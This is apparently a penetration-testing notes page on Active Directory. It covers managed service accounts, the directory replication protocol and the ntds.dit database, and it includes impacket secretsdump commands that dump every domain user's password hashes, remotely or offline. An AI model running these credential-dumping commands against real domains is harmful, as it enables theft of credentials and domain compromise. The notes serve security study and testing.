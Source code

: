 A **standalone Managed Service Account (sMSA)** is a managed domain account that provides automatic password management, simplified service principal name (SPN) management and the ability to delegate the management to other administrators.

The **group Managed Service Account (gMSA)** provides the same functionality within the domain but also extends that functionality over multiple servers.

Those are a special type of security principal that services, IIS application pools, and in some cases scheduled tasks can run as.
Rather than having a conventional password, MSAs (and gMSAs) establish a secret with the directory and then rotate that password every 90 days (by default).

###### *If you don't know, now you know: [Microsoft Directory Replication Service Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-drsr/06205d97-30da-4fdc-a276-3fd831b272e0)*

The Directory Replication Service (DRS) Remote Protocol is an **RPC** protocol for replication and management of data in Active Directory.

The protocol consists of two RPC interfaces:

- **E3514235-4B06-11D1-AB-04-00C04FC2DCD2**: RPC interface UUID for drsuapi methods
-> registered by every domain controller across every AD forest the same way.
- **7c44d7d4-31d5-424c-bd5e2b3e1f323d22**: RPC interface UUID for dsaop methods

Replication is used to indicate that the same directory namespace (the same objects) are copied to another directory server for redundancy and throughput reasons

#### Ntds.dit file

The Ntds.dit file is a database that stores Active Directory data, including information about user objects, groups, and group membership. It includes the password hashes for all users in the domain.

```bash
# Confirm the location of the ntds.dit file
reg.exe query hklm\system\currentcontrolset\services\ntds\parameters
```

[impacket-secretsdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) performs various techniques to dump hashes from the remote machine without executing any agent there.

For NTDS.dit we either:

- Get the domain users list and get its hashes and Kerberos keys using [MS-DRDS] DRSGetNCChanges() call, replicating just the attributes we need.
- Extract NTDS.dit via vssadmin executed with the smbexec approach. It's copied on the temp dir and parsed remotely.

```bash
# Dump the password hashes (Requires Domain Admin rights on the target domain.)
secretsdump.py -just-dc-ntlm <DOMAIN>/<USER>@<DOMAIN_CONTROLLER>

# If we have the HKLM\System hive (reg.exe save HKLM\SYSTEM) and a copy of the ntds.dit
# -> Offline extraction
secretsdump.py -system system.hive -ntds dit LOCAL
```
